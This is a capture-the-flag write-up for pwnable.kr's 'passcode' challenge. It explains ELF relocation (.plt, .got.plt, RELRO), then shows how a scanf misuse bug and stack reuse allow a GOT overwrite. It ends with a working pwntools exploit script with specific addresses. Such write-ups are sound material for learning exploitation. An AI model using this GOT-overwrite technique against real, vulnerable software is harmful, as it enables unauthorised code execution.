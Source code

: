 # passcode

## Description

passcode - 10 pt

> Mommy told me to make a passcode based login system. <br>
> My initial C code was compiled without any error! <br>
> Well, there was some compiler warning, but who cares about that? <br> <br>
> ssh passcode@pwnable.kr -p2222 (pw:guest)

## Solution

### Background

#### Statically and dynamically linked binaries

A binary can be either statically or dynamically linked. A statically linked binary is a self-contained executable that contains all the code and libraries it needs to run. A dynamically linked binary, on the other hand, uses the libraries that are installed on the system.

Most binaries are dynamically linked. This is because it is easier to update the libraries, and it is also more efficient. For example, if a program uses the `printf` function, it doesn't need to include the code for `printf` in the binary itself. Instead, it can use the `printf` function that is already installed on the system.

To locate the functions in the libraries, the binary needs to know the addresses of the functions. They couldn't simply be hard-coded, since the libraries update and with them the addresses change.

The lookup of the addresses and providing a mechanism to call them is called relocation. Most of the work is done by the linker.

#### Relocation

An ELF file is divided into sections. Each section contains a specific type of data, and some sections are used for relocation. Here are the interesting ones:

* `.got` - The Global Offset Table. This section contains the addresses of global variables.

* `.plt` - The Procedure Linkage Table. This section stubs that look up the addresses in the .got.plt section, and either jump to them, or call the linker to resolve them.

* `.got.plt` - The Global Offset Table for Procedure Linkage Table. This section contains the addresses of dynamically linked functions.

For example, let's take a look at the following disassembly:

```asm
0000000000400590 <puts@plt>:
400590:       ff 25 6a 0a 20 00       jmp    *0x200a6a(%rip)        # 601000 <puts@GLIBC_2.2.5>
400596:       68 00 00 00 00          push   $0x0
40059b:       e9 e0 ff ff ff          jmp    400580 <.plt>
```

The `puts@plt` stub is located in the `.plt` section. It's purpose is tho provide a mechanism to call the `puts` function. It does this by jumping to the address in the `.got.plt` section. 

When the program calls `puts` the first time, the matching `.got.plt` entry will be a call to the linker. The linker will resolve the address of the `puts` function, and update the `.got.plt` entry. The next time the program calls `puts`, it will jump directly to the address of the `puts` function. 

#### Using relocation for pwning

Most modern systems use NX (No eXecute) protection. This means that the memory pages that can be exectued can't be written. However, the `.got.plt` section is basically a table of addresses - and it is writable. This means that we can overwrite the addresses in the `.got.plt` section, and redirect the program to call our own code. 

#### Mitigations

The exploiting of the `.got.plt` section is a common technique, and most modern systems have mitigations against it. The most common mitigation is the `RELRO` protection - which stands for `RELocation Read-Only`.

If the binary is compiled with `Partial RELRO` then the `.got.plt` section is writable, but the `.got` section is not. If the binary is compiled with `Full RELRO` then both the `.got.plt` and the `.got` sections are not writable.

### Exploit

The given binary is dynamically linked, and compiled with `Partial RELRO`. This hints that in our exploit we will need to overwrite the `.got.plt` section.

Let's take a look at the source code:

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
	scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

The program first calls the `welcome()` function, where it saves `100` bytes of input on the stack. Then it calls the `login()` function, which reads 2 integers from the user. If the integers are equal to `338150` and `13371337` then the program prints the flag.

Following the hint in the description, we get the following warning when compiling the program:

```bash
warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’
```

This means that `scanf` is expecting to get the address of `passcode1` and `passcode2`, but instead gets their values.

So, if we chagne the value of `passcode1` to the address of a function in the `.got.plt` section, then we can redirect the program to the call `system("/bin/cat flag")`.

The key to this exploit is observing that both `welcome()` and `login()` will have the same base pointer when called. Therefore, some of the stack will be the same. We can use this to our advantage.

We will use the `welcome()` function to save the address of `printf` in the `.got.plt` section inside the `passcode1` variable. Then, when scanf will be called in `login()`, we will enter the address of the call to `system("/bin/cat flag")`.

Here are the relevant parts of the disassembly:

```asm
08048564 <login>:
 ...
 80485e3:       c7 04 24 af 87 04 08    movl   $0x80487af,(%esp)
 80485ea:       e8 71 fe ff ff          call   8048460 <system@plt>
```

```asm
 08048420 <printf@plt>:
 8048420:       ff 25 00 a0 04 08       jmp    *0x804a000
 8048426:       68 00 00 00 00          push   $0x0
 804842b:       e9 e0 ff ff ff          jmp    8048410 <.plt>
```

So, the address of the pointer to `printf` in `.got.plt` is `0x804a000`, and the address of the call to `system("/bin/cat flag")` is `0x80485e3`.

As it truns out, with an offset of `96`, the input we enter will be stored in `passcode1`. Combining the two, we get the following exploit:

```python
from pwn import *

ssh = ssh(host='pwnable.kr', user='passcode', password='guest', port=2222)

p = ssh.process(executable='./passcode')

p.sendline('\x41' * 96 + '\x00\xa0\x04\x08' + '\n134514147')

p.interactive()
```

```bash
Sorry mom.. I got confused about scanf usage :(
```

Note that we passed the second address as an integer because `scanf` uses `%d`.

